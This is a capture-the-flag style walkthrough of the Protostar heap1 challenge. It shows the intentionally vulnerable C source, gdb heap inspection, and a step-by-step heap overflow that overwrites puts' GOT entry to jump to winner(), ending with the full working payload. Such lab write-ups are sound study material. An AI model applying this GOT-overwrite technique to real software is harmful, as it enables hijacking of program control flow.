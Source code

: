 ## GOT Overwrite
> overwriting global offset table via heap overflow  
:syringe: Learned and noted for everyone :syringe:

**:pill: heap1.c from protostar :pill:**

```clike
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {  
  int priority;
  char *name;
};

void winner()  
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)  
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

:scroll: :scroll: :scroll: Definitions of source code :scroll: :scroll: :scroll:   

 - `struct internet *i1, *i2, *i3;` -> program has 3 pointers
 - `i1->name` & `i2->name` are respectively allocated at heap memory with 8 bytes
 - user inputs are copying to `i1->name` & `i2->name`

:mag: :mag: :mag: Debugging in gdb :mag_right: :mag_right: :mag_right:
 - we will break at strcpy and then we will examine heap in gdb
 - `gdb -q ./heap1` -> load the program with gdb
 - `set disassembly-flavor intel` -> set disassembly result to intel
 - `disas main` -> disassemble main function to set a breakboint
 - `break *main+127` -> set breakpoint at first strcpy
 - `run` -> run program to know heap address
 - `info proc map`- > viewing heap address -> `0x804a000`

defining hook for better debugging

```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/32x 0x804a000
>x/2i $eip
>end
```

 - `run AAAA BBBB` -> run program to examine heap chunks

:grey_question: results :grey_question:
```
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
``` 
**:notebook: Revisiting Heap Chunks :notebook:**

i1 heap chunk

    [ 0x00000000      0x00000011      0x00000001      0x0804a018 ]
    [ prev_size       chunk_size      i1->priority    i1->name   ]

 - `0x11 = 17 bytes` 
 - `0x0804a018` -> address of i1->name to store argv[1]

i2 heap chunk

    [ 0x00000000      0x00000011      0x00000002      0x0804a038 ]
    [ prev_size       chunk_size      i1->priority    i1->name   ]

 - `0x11 = 17 bytes` 
 - `0x0804a038` -> address of i2->name to store argv[2]

execute after strcpy

```
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
```
 - `0x41414141- AAAA` is stored in `0x0804a018` 
 - `0x42424242- BBBB` is stored in `0x0804a038` 
 - we have access to write at `0x0804a018` so we can overwrite `0x0804a038` , simple!
 - `run $(python -c 'print "A"*24') BBBB` -> test overflow

:grey_question: results :grey_question:

```
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
```

 - bingo! we can modify i2->name
 - if we can modify specific address, the only thing to do is overwriting global offest table
- `disas main` -> checking the program has function call from PLT ( procedure linkage table ) 
- `0x08048561 <main+168>:  call   0x80483cc <puts@plt>` -> this challenge has a call for puts

viewing the adreess in GOT

```
(gdb) x 0x80483cc
0x80483cc <puts@plt>:   jmp    DWORD PTR ds:0x8049774
(gdb) x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:   rol    BYTE PTR [ebx+0x804],cl
```

 - `0x8049774` -> the address we need to overwrite
 - `0x0804a038 = \x38\xa0\x04\x08` -> the address of i2->name
 - `run $(python -c 'print "A"*20+"\x38\xa0\x04\x08"') BBBB` -> testing to modify

:grey_question: results :grey_question:

```
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```

 - its worked !  time to overwrite GOT address
 - `0x8049774 = \x74\x97\x04\x08` -> GOT address
 - `disas winner` -> view winner address
 - `0x08048494 = \x94\x84\x04\x08` -> winer address
 - `run $(python -c 'print "A"*20+"\x74\x97\x04\x08"') $(python -c 'print "\x94\x84\x04\x08"')` -> final payload

:grey_question: results :grey_question:

```
$ ./heap1 $(python -c 'print "A"*20+"\x74\x97\x04\x08"') $(python -c 'print "\x94\x84\x04\x08"')
and we have a winner @ 1544380822
```
 - Yeah! we made it

Have fun! :v: :v: :v:

---
**:muscle: References :muscle:**  

all resources listed here :point_right: [LOL-Fav](http://location-href.com/lol-fav/)  :page_facing_up:

:snowman: Contributed and maintained by [Luna-](https://twitter.com/art0flunam00n)  
:snowflake: Powered by [Legion of LOL](http://location-href.com)

---

